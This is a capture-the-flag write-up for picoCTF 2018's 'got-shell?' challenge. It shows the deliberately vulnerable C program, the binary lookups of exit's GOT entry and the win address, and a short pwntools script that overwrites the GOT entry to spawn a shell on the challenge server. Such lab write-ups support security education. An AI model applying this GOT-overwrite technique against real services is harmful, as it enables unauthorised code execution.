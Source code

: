 got-shell? - Points: 350
===========

## Description

>Can you authenticate to this service and get the flag? Connect to it with nc 2018shell1.picoctf.com 23731

## Hint:

> * Ever heard of the Global Offset Table?

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```

## Useful Information

$rabin2 -R got-shell |grep exit
> * vaddr=0x0804a014 paddr=0x00001014 type=SET_32 exit

nm got-shell|grep win 
> * 0804854b T win

## Exploit


**Give the address of win as content and the addresss of exit as destination :**

```python
#!/usr/bin/python2.7
from pwn import *
import time,sys

exit="0804a014"
win="0804854b"
rem = remote("2018shell3.picoctf.com",23731)
rem.recv(4096)

rem.sendline(exit)
rem.recv(4096)
rem.sendline(win)

rem.interactive()
```


